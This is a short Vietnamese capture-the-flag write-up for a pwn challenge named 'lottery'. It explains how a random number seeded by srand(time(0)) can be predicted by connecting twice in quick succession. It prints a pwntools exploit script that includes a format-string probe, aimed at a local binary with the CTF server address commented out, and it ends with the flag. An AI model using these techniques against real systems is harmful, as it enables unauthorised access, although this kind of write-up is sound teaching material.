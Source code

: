 **SOLUTION**

hmmm....Bài này lúc đầu mình cũng thấy khá là ngô khoai.

Đầu tiên nó sẽ yêu cầu mình nhập tên với độ dài bằng 10 thông qua hàm:
```sh
fgets(name,10,stdin);
```

Sau đó nó sẽ in ra Hello + name vừa nhập và yêu cầu người chơi nhập 1 số bất kỳ, nếu trùng với số được cộng từ 2 số random của hệ thống thì mình sẽ lấy được flag.

Vấn đề này thì đơn giản hơn nhiều khi chương trình có sử dụng hàm `srand(0)` nhưng ở đây chương trình này sử dụng `srand(time(0))` để gọi 1 số random nên sẽ hơi khó 1 tí.

Vì mình không thể đoán chính xác số ấy được, nên mình sẽ cần leak số ấy ra thôi. Nhưng tiếc là mình hem leak được :((

Vậy thôi,.... mình chơi ăn gian 1 tí. Mình sẽ nhập đại 1 giá trị, sau đó mình bắt giá trị của server in ra sau câu `The lucky number is` để làm giá trị cho lần kết nối sau. Nhưng do mình làm tự động bằng file nên thời gian ko chênh lệch nhiều nên srand(time(0)) của 2 lần sẽ ko thay đổi. Mình nghĩ như vậy. Và xem nào, nó dùng được này....

Đây là file exploit.py của mình

```sh
from pwn import *
temp1 = "1111111"
#s = remote("128.199.234.122",4200)
s = process("./lottery")
s.sendline("%7$x")
s.recvuntil("Hello")
temp = s.recvline()
log.info(">> {}".format(temp))
s.sendline(temp1)
s.recvuntil("The lucky number is")
temp1 = s.recvuntil("\n")
log.info("Value >> {}".format(temp1))
#s =remote("128.199.234.122",4200)
s = process("./lottery")
s.sendline("Hazir")
s.sendline(temp1)
s.interactive()
s.close()
```

Run và hồi hộp chờ thôi nèo... Tadaaaaa `efiensctf{ULTRA_MEGA_SUPER_HUGE_VIETLOT_JACKPOT}`